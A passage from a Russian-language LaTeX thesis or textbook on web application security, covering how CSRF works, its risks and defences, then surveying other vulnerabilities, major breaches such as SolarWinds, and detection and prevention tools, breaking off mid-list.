	 		
\includegraphics[width=1\textwidth]{chat_xss_attack_failed.png}
	 		\caption{Отображение html-тегов как простой строки}
	 		\label{fig:chat_xss_attack_failed}
	 	}
	 \end{figure}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \chapter[Подделка межсайтовых запросов (CSRF)]{Подделка межсайтовых запросов (CSRF)}
	 
	 
	 \section{Понятие и примеры подделки межсайтовых запросов}
	 
	 Подделка межсайтовых запросов (Cross-Site Request Forgery, CSRF) представляет собой тип атаки, направленной на выполнение несанкционированных действий от имени пользователя, который аутентифицирован на уязвимом веб-приложении. Злоумышленник обманным путем заставляет пользователя отправить запрос к веб-приложению, которое выполнит действие, не предусмотренное пользователем.
	 
	 \subsection{Механизм CSRF-атаки}
	 
	 CSRF-атака обычно осуществляется следующим образом:
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Пользователь аутентифицируется на уязвимом веб-приложении:}  Пользователь входит в свою учетную запись на веб-приложении, которое уязвимо к CSRF.
		\item \textbf{Злоумышленник создает вредоносный запрос:}  Злоумышленник создает запрос, который выполняет несанкционированное действие, например, изменение пароля пользователя или перевод денежных средств.
	 	\item \textbf{Запрос маскируется под легитимный:}  Злоумышленник маскирует вредоносный запрос под легитимный, например, размещая его в скрытой форме или в ссылке на веб-странице.
	 	\item \textbf{Пользователь обманным путем отправляет запрос:}  Пользователь посещает веб-страницу злоумышленника или нажимает на ссылку, которая автоматически отправляет вредоносный запрос к уязвимому веб-приложению.
	 	\item \textbf{Веб-приложение выполняет запрос:}  Веб-приложение, не подозревая о том, что запрос был отправлен злоумышленником, выполняет его, используя данные аутентификации пользователя.
	\end{enumerate}
	 
	\subsection{Примеры CSRF-атак}
	 
	Ниже приведены несколько примеров CSRF-атак:
	 
	\begin{itemize}
		\item \textbf{Изменение пароля пользователя:}  Злоумышленник создает форму, которая отправляет запрос на изменение пароля пользователя к уязвимому веб-приложению. Пользователь, будучи аутентифицированным на веб-приложении, посещает страницу со скрытой формой и невольно изменяет свой пароль на тот, который задал злоумышленник.
		\item \textbf{Перевод денежных средств:}  Злоумышленник создает ссылку, которая отправляет запрос на перевод денежных средств с счета пользователя на счет злоумышленника. Пользователь, будучи аутентифицированным на веб-приложении онлайн-банкинга, нажимает на ссылку и невольно переводит свои средства злоумышленнику.
	 	\item \textbf{Изменение настроек учетной записи:}  Злоумышленник создает запрос, который изменяет настройки учетной записи пользователя, например, адрес электронной почты или адрес доставки. Пользователь, будучи аутентифицированным на веб-приложении интернет-магазина, посещает страницу со скрытым запросом и невольно изменяет свои настройки учетной записи.
	\end{itemize}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Риски и угрозы для приложений, связанные с CSRF-атаками}
	 
	 CSRF-атаки представляют собой серьезную угрозу для безопасности веб-приложений и могут иметь разнообразные негативные последствия для пользователей, организаций и репутации бренда.  В этом разделе рассмотрим основные риски и угрозы, связанные с CSRF-атаками.
	 
	 \subsection{Кража личных данных}
	 
	 Злоумышленники могут использовать CSRF-атаки для получения несанкционированного доступа к конфиденциальной информации пользователя, хранящейся в веб-приложении.  Например:
	 
	 \begin{itemize}
	 	\item \textbf{Доступ к финансовым данным:}  CSRF-атака может быть использована для инициирования перевода денежных средств с банковского счета пользователя на счет злоумышленника или для получения доступа к данным его кредитной карты.
	 	\item \textbf{Кража личной информации:}  Злоумышленник может получить доступ к личным данным пользователя, таким как адрес, номер телефона, дата рождения и другая чувствительная информация.
	 	\item \textbf{Чтение личных сообщений:}  CSRF-атака может быть использована для получения доступа к личным сообщениям пользователя, что может привести к раскрытию конфиденциальной информации или нарушению приватности.
	 \end{itemize}
	 
	 \subsection{Финансовые потери}
	 
	 CSRF-атаки могут привести к прямым финансовым потерям для пользователей и организаций:
	 
	 \begin{itemize}
	 	\item \textbf{Несанкционированные переводы:}  Злоумышленник может использовать CSRF-атаку для перевода денег с банковского счета пользователя на свой счет, причинив пользователю финансовый ущерб.
	 	\item \textbf{Мошеннические покупки:}  CSRF-атака может быть использована для совершения покупок от имени пользователя, используя его данные кредитной карты.
	 	\item \textbf{Вымогательство:}  Злоумышленник может использовать CSRF-атаку для изменения настроек учетной записи пользователя, например, адреса электронной почты или адреса доставки, а затем требовать выкуп за восстановление доступа к учетной записи.
	 \end{itemize}
	 
	 \subsection{Повреждение репутации}
	 
	 CSRF-атаки могут нанести ущерб репутации организаций и брендов:
	 
	 \begin{itemize}
	 	\item \textbf{Публикация нежелательного контента:}  Злоумышленник может использовать CSRF-атаку для публикации нежелательного контента от имени пользователя на форумах, в социальных сетях или других онлайн-платформах.  Это может привести к негативному восприятию бренда и потере доверия пользователей. 
	 	\item \textbf{Распространение дезинформации:}  CSRF-атака может быть использована для распространения ложной информации от имени пользователя, что может нанести ущерб репутации организации или бренда. 
	 	\item \textbf{Ассоциация с незаконной деятельностью:}  Злоумышленник может использовать CSRF-атаку для совершения незаконных действий, таких как мошенничество или отмывание денег, от имени пользователя или организации.  Это может привести к юридическим проблемам и негативному освещению в СМИ.
	 \end{itemize}
	 
	 \subsection{Нарушение безопасности}
	 
	 CSRF-атаки могут привести к нарушению безопасности веб-приложений и систем:
	 
	 \begin{itemize}
	 	\item \textbf{Изменение настроек безопасности:}  Злоумышленник может использовать CSRF-атаку для изменения настроек безопасности веб-приложения, что может сделать его более уязвимым для других атак.
	 	\item \textbf{Получение доступа к административным функциям:}  CSRF-атака может быть использована для получения доступа к административным функциям веб-приложения, что позволит злоумышленнику получить полный контроль над приложением.
	 	\item \textbf{Установка вредоносного программного обеспечения:}  Злоумышленник может использовать CSRF-атаку для установки вредоносного программного обеспечения на сервер веб-приложения или на компьютеры пользователей.
	 \end{itemize}
	 
	 \subsection{Угроза для конфиденциальности}
	 
	 CSRF-атаки могут нарушить конфиденциальность пользователей:
	 
	 \begin{itemize}
	 	\item \textbf{Доступ к личной переписке:}  CSRF-атака может быть использована для получения доступа к личным сообщениям пользователя, что может привести к раскрытию конфиденциальной информации или нарушению приватности. 
	 	\item \textbf{Отслеживание действий пользователя:}  Злоумышленник может использовать CSRF-атаку для отслеживания действий пользователя на веб-сайте, например, какие страницы он посещает или какие действия он выполняет.
	 	\item \textbf{Сбор информации о пользователе:}  CSRF-атака может быть использована для сбора информации о пользователе, такой как его IP-адрес, тип браузера и операционная система.
	 \end{itemize} 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Основные подходы к предотвращению CSRF-атак}
	 
	 Предотвращение CSRF-атак является важным аспектом обеспечения безопасности веб-приложений. Существует несколько эффективных подходов, которые разработчики могут использовать для защиты своих приложений от этого типа угроз.
	 
	 \subsection{Использование токенов CSRF (Synchronizer Token Pattern)}
	 
	 Токены CSRF представляют собой уникальные, случайные значения, которые генерируются сервером и внедряются в формы и запросы, изменяющие состояние приложения.  При отправке формы или запроса браузер пользователя передает токен обратно на сервер, который проверяет его подлинность.  Если токен отсутствует или недействителен, запрос отклоняется.  
	 
	 \begin{itemize}
	 	\item \textbf{Генерация токенов:}  Токены CSRF должны генерироваться случайным образом и быть уникальными для каждого пользователя и сеанса.  
	 	\item \textbf{Внедрение токенов:}  Токены CSRF должны внедряться во все формы и запросы, изменяющие состояние приложения, например, в скрытые поля форм.
	 	\item \textbf{Проверка токенов:}  Сервер должен проверять подлинность токенов CSRF при каждом запросе, изменяющем состояние приложения.
	 \end{itemize}
	 
	 \subsection{Использование SameSite Cookie Attribute}
	 
	 Атрибут SameSite для файлов cookie позволяет разработчикам контролировать, могут ли cookie отправляться в межсайтовых запросах.  Установив атрибут SameSite в значение `Strict` или `Lax`, можно предотвратить отправку cookie в запросах, инициированных с других сайтов, что эффективно защищает от CSRF-атак.
	 
	 \begin{itemize}
	 	\item \textbf{Strict:}  Cookie отправляются только в запросах, инициированных с того же сайта, что и cookie.
	 	\item \textbf{Lax:}  Cookie отправляются в запросах, инициированных с того же сайта, что и cookie, а также в некоторых межсайтовых запросах, например, при переходе по ссылке с другого сайта.
	 \end{itemize}
	 
	 \subsection{Двойная отправка cookie (Double Submit Cookie Pattern)}
	 
	 Двойная отправка cookie - это альтернативный подход к токенам CSRF.  В этом методе сервер генерирует случайное значение и устанавливает его как в cookie, так и в скрытое поле формы.  При отправке формы браузер пользователя передает как cookie, так и значение из скрытого поля.  Сервер проверяет, совпадают ли эти два значения, чтобы убедиться, что запрос является легитимным. 
	 
	 \subsection{Проверка заголовка Referer}
	 
	 Заголовок Referer HTTP-запроса содержит URL страницы, с которой был инициирован запрос.  Сервер может проверить заголовок Referer, чтобы убедиться, что запрос был инициирован с того же сайта, что и приложение.  Однако, этот метод не является полностью надежным, так как заголовок Referer может быть подделан или отсутствовать.
	 
	 \subsection{Дополнительные рекомендации}
	 
	 \begin{itemize}
	 	\item \textbf{Использование POST-запросов:}  Вместо GET-запросов для изменения состояния приложения следует использовать POST-запросы, так как GET-запросы более уязвимы для CSRF-атак.
	 	\item \textbf{Ограничение межсайтовых запросов:}  Используйте политики безопасности контента (CSP) и другие механизмы для ограничения межсайтовых запросов к вашему приложению.
	 	\item \textbf{Обучение пользователей:}  Обучайте пользователей принципам безопасности и предупреждайте их о рисках, связанных с CSRF-атаками.
	 	
	 \end{itemize}
	 
	 \textbf{Существует несколько эффективных подходов к предотвращению CSRF-атак.  Разработчики должны выбирать подходящий метод или комбинацию методов, основываясь на специфике своего приложения и уровнях риска.  Регулярное обновление и тестирование приложения также являются важными аспектами обеспечения безопасности от CSRF-атак.}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Основные подходы и инструменты для предотвращения CSRF-атак}
	 
	 Защита веб-приложений от CSRF-атак требует комплексного подхода, который включает в себя использование различных инструментов и следование рекомендациям по обеспечению безопасности. В этом разделе рассмотрим некоторые из наиболее эффективных инструментов и рекомендаций для защиты от CSRF-атак.
	 
	 \subsection{Фреймворки веб-разработки с встроенной защитой от CSRF}
	 
	 Многие современные фреймворки веб-разработки предоставляют встроенные механизмы защиты от CSRF-атак. Эти фреймворки автоматически генерируют и проверяют токены CSRF, что упрощает процесс защиты приложений.
	 
	 \begin{itemize}
	 	\item \textbf{Django (Python):} Фреймворк Django предоставляет встроенную защиту от CSRF-атак с помощью middleware `django.middleware.csrf.CsrfViewMiddleware`. Этот middleware автоматически добавляет токены CSRF в формы и проверяет их подлинность при обработке запросов.
	 	\item \textbf{Ruby on Rails (Ruby):} Фреймворк Ruby on Rails также предоставляет встроенную защиту от CSRF-атак с помощью модуля \\`ActionController::RequestForgeryProtection`. Этот модуль автоматически генерирует и проверяет токены CSRF, а также предоставляет методы для настройки поведения защиты.
	 	\item \textbf{Spring Security (Java):} Spring Security - это фреймворк безопасности для приложений Java, который предоставляет широкий спектр функций безопасности, включая защиту от CSRF-атак. Spring Security использует токены CSRF для защиты форм и AJAX-запросов. 
	 \end{itemize}
	 
	 \subsection{Инструменты для тестирования на наличие CSRF-уязвимостей}
	 
	 Существует ряд инструментов, которые помогают разработчикам и специалистам по безопасности выявлять CSRF-уязвимости в веб-приложениях. 
	 
	 \begin{itemize}
	 	\item \textbf{OWASP ZAP:}  OWASP Zed Attack Proxy (ZAP) - это бесплатный и открытый сканер уязвимостей, который включает в себя инструменты для обнаружения CSRF-уязвимостей. ZAP может автоматически сканировать веб-приложения и выявлять потенциальные уязвимости, связанные с отсутствием или неправильной реализацией токенов CSRF. \cite{ZAP_tool}
	 	\item \textbf{Burp Suite:} Burp Suite - это коммерческий набор инструментов для тестирования безопасности веб-приложений, который включает в себя функции для обнаружения и эксплуатации CSRF-уязвимостей. Burp Suite позволяет перехватывать и модифицировать запросы, а также автоматизировать процесс тестирования на наличие CSRF-уязвимостей. \cite{Burp_Suite_tool}
	 	\item \textbf{CSRF Tester:} CSRF Tester - это расширение для браузера, которое позволяет легко создавать и отправлять CSRF-атаки. Этот инструмент может быть полезен для тестирования устойчивости веб-приложений к CSRF-атакам. \cite{CSRF_tool}
	 \end{itemize}
	 
	 \subsection{Рекомендации по выбору и использованию инструментов}
	 
	 \begin{itemize}
	 \item \textbf{Выбор инструментов в зависимости от потребностей:}  Выбор инструментов для защиты от CSRF-атак должен основываться на специфике приложения, требованиях к безопасности и уровне квалификации разработчиков.
	 \item \textbf{Регулярное обновление инструментов:}  Инструменты безопасности должны регулярно обновляться для обеспечения защиты от новых угроз и уязвимостей.
	 \item \textbf{Использование комбинации инструментов:}  Для обеспечения максимальной защиты рекомендуется использовать комбинацию различных инструментов, таких как фреймворки с встроенной защитой, сканеры уязвимостей и инструменты для тестирования на проникновение.
 	 \end{itemize}
	 
	 \subsection{Общие рекомендации по защите от CSRF-атак}
	 
	 \begin{itemize}
	 \item \textbf{Обучение разработчиков:}  Обучение разработчиков принципам безопасной разработки и методам предотвращения CSRF-атак является важным аспектом обеспечения безопасности приложений.
	 \item \textbf{Внедрение программы bug bounty:}  Программа bug bounty может стимулировать исследователей безопасности к обнаружению уязвимостей в приложениях, включая CSRF-уязвимости. 
	 \item \textbf{Регулярное тестирование на проникновение:}  Регулярное проведение тестирования на проникновение помогает выявлять и устранять уязвимости в приложениях до того, как они будут обнаружены злоумышленниками.
	\end{itemize}
	 
	 \textbf{Защита от CSRF-атак является важной задачей для обеспечения безопасности веб-приложений. Существует ряд инструментов и рекомендаций, которые могут помочь разработчикам и специалистам по безопасности эффективно защитить свои приложения от этого типа угроз.}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \chapter[Другие уязвимости веб-приложений]{Другие уязвимости веб-приложений}
	 
	 
	 
	 
	 \section{Рассмотрение и обзор других основных уязвимостей}
	 
	 Помимо широко известных уязвимостей, таких как инъекции SQL, межсайтовый скриптинг (XSS) и подделка межсайтовых запросов (CSRF), существует ряд других значительных уязвимостей, которые могут представлять серьезную угрозу для безопасности веб-приложений. В этом разделе мы рассмотрим некоторые из этих уязвимостей, включая недостаточную аутентификацию, утечку информации, недостаточную авторизацию и другие.
	 
	 \subsection{Недостаточная аутентификация}
	 
	 Уязвимости, связанные с недостаточной аутентификацией, возникают, когда механизмы аутентификации в веб-приложении имеют слабые стороны, которые могут быть использованы злоумышленниками для получения несанкционированного доступа к учетным записям пользователей или системе в целом. Эти слабые стороны могут быть связаны с различными аспектами процесса аутентификации, такими как:
	 
	 \begin{itemize}
	 	\item \textbf{Слабые пароли:} Использование слабых или легко угадываемых паролей является распространенной проблемой. Злоумышленники могут использовать методы перебора паролей, словари или социальную инженерию для получения доступа к учетным записям пользователей.
	 	\item \textbf{Отсутствие многофакторной аутентификации (MFA):} MFA добавляет дополнительный уровень защиты, требуя от пользователей предоставить несколько факторов аутентификации, таких как пароль и код из SMS, для доступа к системе. Отсутствие MFA делает систему более уязвимой для атак методом подбора паролей и фишинга.
	 	\item \textbf{Небезопасное хранение паролей:}  Пароли должны храниться в зашифрованном виде с использованием надежных алгоритмов хеширования, таких как scrypt или Argon2. Хранение паролей в виде простого текста или с использованием слабых алгоритмов хеширования делает их уязвимыми для кражи в случае утечки данных.
	 	\item \textbf{Уязвимости в процессе восстановления пароля:}  Злоумышленники могут использовать уязвимости в процессе восстановления пароля для сброса паролей пользователей и получения несанкционированного доступа к их учетным записям. Это может быть связано с недостаточной проверкой личности пользователя или слабыми методами сброса пароля.
	 \end{itemize}
	 
	 \subsection{Утечка информации}
	 
	 Утечка информации происходит, когда конфиденциальные данные, такие как имена пользователей, пароли, номера кредитных карт или персональная информация, становятся доступными неавторизованным лицам. Это может произойти по различным причинам, включая:
	 
	 \begin{itemize}
	 	\item \textbf{Неправильная обработка ошибок:}  Ошибки приложения могут раскрывать конфиденциальную информацию, такую как пути к файлам, внутренняя структура базы данных или значения переменных окружения.
	 	\item \textbf{Небезопасное хранение данных:}  Конфиденциальные данные должны храниться в зашифрованном виде и с ограниченным доступом. Недостаточная защита данных, как в состоянии покоя, так и в процессе передачи, может привести к утечке информации.
	 	\item \textbf{Недостаточное журналирование и мониторинг:}  Отсутствие надлежащего журналирования и мониторинга может затруднить обнаружение утечек информации. Важно вести журналы событий безопасности и регулярно анализировать их на предмет подозрительной активности.
	 	\item \textbf{Уязвимости в сторонних компонентах:}  Использование сторонних библиотек или компонентов с известными уязвимостями может привести к утечке информации. Необходимо регулярно обновлять сторонние компоненты до последних версий, чтобы устранить уязвимости безопасности.
	 \end{itemize}
	 
	 \subsection{Недостаточная авторизация}
	 
	 Уязвимости, связанные с недостаточной авторизацией, возникают, когда приложение не обеспечивает надлежащую проверку прав доступа пользователей к ресурсам или функциям. Это может привести к несанкционированному доступу к данным, изменению данных или выполнению несанкционированных действий. 
	 
	 \begin{itemize}
	 	\item \textbf{Отсутствие контроля доступа на уровне объектов:}  Приложение должно проверять права доступа пользователя к каждому объекту данных, к которому он пытается получить доступ.  Например, пользователь должен иметь право на просмотр только тех записей в базе данных, которые принадлежат ему.
	 	\item \textbf{Неправильная обработка ролей и прав доступа:}  Роли и права доступа должны быть четко определены и реализованы таким образом, чтобы предотвратить несанкционированный доступ к функциям или данным.  Важно, чтобы права доступа были назначены по принципу наименьших привилегий, то есть пользователи должны иметь доступ только к тем ресурсам, которые им необходимы для выполнения своих задач.
	 	\item \textbf{Уязвимости в логике авторизации:}  Злоумышленники могут использовать ошибки в логике авторизации для получения доступа к функциям или данным, к которым у них нет прав.  Это может быть связано с недостаточной проверкой условий доступа или использованием некорректных методов авторизации.
	 \end{itemize}
	 
	 \subsection{Другие уязвимости}
	 
	 Помимо перечисленных выше, существует множество других уязвимостей, которые могут представлять угрозу для безопасности веб-приложений. Некоторые из них включают:
	 
	 \begin{itemize}
	 	\item \textbf{XML External Entity (XXE) Injection:}  XXE-атаки позволяют злоумышленникам внедрять внешние сущности в XML-документы, что может привести к раскрытию конфиденциальной информации, отказу в обслуживании или выполнению произвольного кода. 
	 	\item \textbf{Небезопасная десериализация:}  Десериализация ненадежных данных может привести к выполнению произвольного кода на сервере. 
	 	\item \textbf{Уязвимости в компонентах с открытым исходным кодом:}  Использование компонентов с открытым исходным кодом с известными уязвимостями может поставить под угрозу безопасность приложения. 
	 	\item \textbf{Недостаточная конфигурация безопасности:}  Неправильная конфигурация серверов, баз данных или приложений может создать уязвимости, которые могут быть использованы злоумышленниками. 
	 \end{itemize}
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Примеры и последствия этих уязвимостей}
	 
	 Уязвимости, рассмотренные в предыдущем разделе, могут иметь серьезные последствия для безопасности веб-приложений, пользователей и организаций. Рассмотрим несколько примеров реальных инцидентов, связанных с этими уязвимостями, и их последствия:
	 
	 \subsection{Утечка данных на Facebook (2018)}
	 
	 В 2018 году социальная сеть Facebook столкнулась с масштабной утечкой данных, в результате которой были скомпрометированы данные около 50 миллионов пользователей. Утечка произошла из-за уязвимости в функции 'View As', которая позволяла злоумышленникам получать токены доступа пользователей и получать доступ к их профилям, сообщениям и другой конфиденциальной информации.\cite{Facebook_attack}
	 
	 \textbf{Последствия утечки:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Репутационный ущерб:}  Facebook подверглась резкой критике за недостаточную защиту данных пользователей и нарушение их конфиденциальности.
	 	\item \textbf{Финансовые потери:}  Facebook столкнулась с многомиллионными штрафами со стороны регулирующих органов и потерями на фондовом рынке.
	 	\item \textbf{Потеря доверия пользователей:}  Многие пользователи потеряли доверие к Facebook и стали более осторожно относиться к предоставлению своих личных данных в социальных сетях.
	 \end{enumerate}
	 
	 \subsection{Взлом Marriott International (2018)}
	 
	 В 2018 году гостиничная сеть Marriott International объявила о взломе базы данных своей дочерней компании Starwood, в результате которого были скомпрометированы данные около 500 миллионов гостей.  Утечка данных включала имена, адреса электронной почты, номера телефонов, номера паспортов и данные кредитных карт.  Взлом произошел из-за уязвимости в системе безопасности Starwood, которая не была обнаружена после приобретения компании Marriott.\cite{Marriott_International_attack}
	 
	 \textbf{Последствия взлома:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Финансовые потери:}  Marriott International столкнулась с значительными финансовыми потерями, связанными с расследованием инцидента, урегулированием судебных исков и инвестициями в улучшение системы безопасности.
	 	\item \textbf{Репутационный ущерб:}  Взлом Marriott International серьезно подорвал репутацию компании и доверие гостей.
	 	\item \textbf{Судебные иски:}  Marriott International столкнулась с многочисленными судебными исками от пострадавших гостей.
	 \end{enumerate}
	 
	 \subsection{Взлом SolarWinds (2020)}
	 
	 В 2020 году компания SolarWinds, поставщик программного обеспечения для управления ИТ-инфраструктурой, стала жертвой сложной кибератаки, в результате которой злоумышленники получили доступ к системам тысяч организаций по всему миру, включая правительственные учреждения США.  Атака была проведена с использованием уязвимости в программном обеспечении Orion компании SolarWinds, которое было скомпрометировано злоумышленниками.\cite{SolarWinds_attack}
	 
	 \textbf{Последствия взлома:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Угроза национальной безопасности:}  Взлом SolarWinds представлял серьезную угрозу национальной безопасности США и других стран, поскольку злоумышленники получили доступ к конфиденциальной информации правительственных учреждений.
	 	\item \textbf{Экономический ущерб:}  Взлом SolarWinds привел к значительным экономическим потерям для пострадавших организаций, связанных с расследованием инцидента, восстановлением систем и улучшением системы безопасности. 
	 	\item \textbf{Потеря доверия к поставщикам программного обеспечения:}  Взлом SolarWinds подорвал доверие к поставщикам программного обеспечения и подчеркнул важность обеспечения безопасности цепочки поставок программного обеспечения. 
	 \end{enumerate}
	 
	 \subsection{Выводы}
	 
	 Эти примеры демонстрируют серьезность последствий, которые могут возникнуть в результате уязвимостей в веб-приложениях. Утечка данных, несанкционированный доступ к системам, финансовые потери, репутационный ущерб и потеря доверия пользователей - это лишь некоторые из возможных последствий.  Важно понимать риски, связанные с этими уязвимостями, и принимать меры для их предотвращения. 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 
	 \section{Методы и инструменты для обнаружения и предотвращения других уязвимостей}
	 
	 Помимо рассмотренных ранее уязвимостей, существуют и другие угрозы безопасности веб-приложений, которые необходимо учитывать. Для обнаружения и предотвращения этих уязвимостей применяются различные методы и инструменты.
	 
	 \subsection{Сканирование уязвимостей}
	 
	 Сканеры уязвимостей - это автоматизированные инструменты, которые позволяют обнаруживать потенциальные уязвимости в веб-приложениях. Они работают путем анализа исходного кода, конфигурации сервера и сетевого трафика на наличие известных уязвимостей. 
	 
	 \textbf{Примеры популярных сканеров уязвимостей:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{OpenVAS:}  Открытый сканер уязвимостей с широким набором функций. 
	 	\item \textbf{Nessus:}  Коммерческий сканер уязвимостей, известный своей высокой точностью и производительностью.
	 	\item \textbf{Nikto:}  Открытый сканер уязвимостей, специализирующийся на веб-серверах. 
	 	\item \textbf{Burp Suite:}  Комплексный набор инструментов для тестирования безопасности веб-приложений, включая сканер уязвимостей.
	 \end{enumerate}
	 
	 
	 \subsection{Тестирование на проникновение}
	 
	 Тестирование на проникновение (пентест) - это процесс имитации атаки на веб-приложение с целью выявления уязвимостей.  Пентесты проводятся квалифицированными специалистами по безопасности, которые используют различные методы и инструменты для поиска и эксплуатации уязвимостей.  Пентесты позволяют получить более глубокое понимание уровня безопасности веб-приложения и выявить уязвимости, которые могут быть пропущены сканерами уязвимостей.
	 
	 \subsection{Анализ исходного кода}
	 
	 Анализ исходного кода - это процесс ручного или автоматизированного изучения исходного кода веб-приложения на наличие уязвимостей.  Этот метод требует глубоких знаний языков программирования и принципов безопасности.  Анализ исходного кода позволяет выявить уязвимости, которые могут быть связаны с логикой приложения, использованием небезопасных функций или ошибками программирования.
	 
	 \subsection{Обзор безопасности}
	 
	 Обзор безопасности - это процесс оценки безопасности веб-приложения с использованием различных методов, включая сканирование уязвимостей, тестирование на проникновение и анализ исходного кода.  Обзор безопасности позволяет получить целостное представление об уровне безопасности веб-приложения и разработать план по его улучшению.
	 
	 \subsection{Методы предотвращения уязвимостей}
	 
	 Помимо обнаружения уязвимостей, важно также принимать меры для их предотвращения.  
	 
	 \textbf{Некоторые из наиболее эффективных методов предотвращения уязвимостей:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Валидация и фильтрация данных:}  Валидация и фильтрация данных на стороне сервера и клиента помогают предотвратить инъекционные атаки, такие как SQL-инъекции и XSS.
	 	\item \textbf{Использование параметризованных запросов:}  Параметризованные запросы помогают предотвратить SQL-инъекции, поскольку они разделяют данные от команд SQL. 
	 	\item \textbf{Кодирование вывода:}  Кодирование вывода помогает предотвратить XSS, поскольку оно преобразует специальные символы в безопасный формат.
	 	\item \textbf{Использование фреймворков безопасности:}  Фреймворки безопасности, такие как Spring Security и Django, предоставляют встроенные механизмы защиты от распространенных уязвимостей.
	 	\item \textbf{Регулярное обновление программного обеспечения:}  Регулярное обновление программного обеспечения, включая операционную систему, веб-сервер, приложения и библиотеки, помогает устранить известные уязвимости.
	 	\item \textbf{Обучение разработчиков:}  Обучение разработчиков принципам безопасности помогает предотвратить уязвимости на ранних этапах разработки. 
	 \end{enumerate}
	 
	 \subsection{Инструменты для предотвращения уязвимостей}
	 
	 Существует множество инструментов, которые помогают предотвратить уязвимости в веб-приложениях.  
	 
	 \textbf{Некоторые из наиболее популярных инструментов:}
	 
	 \begin{enumerate}[label=\arabic{enumi})]
	 	\item \textbf{Web Application Firewall (WAF):}  WAF - это программное или аппаратное устройство, которое фильтрует вредоносный трафик, направленный на веб-приложение.
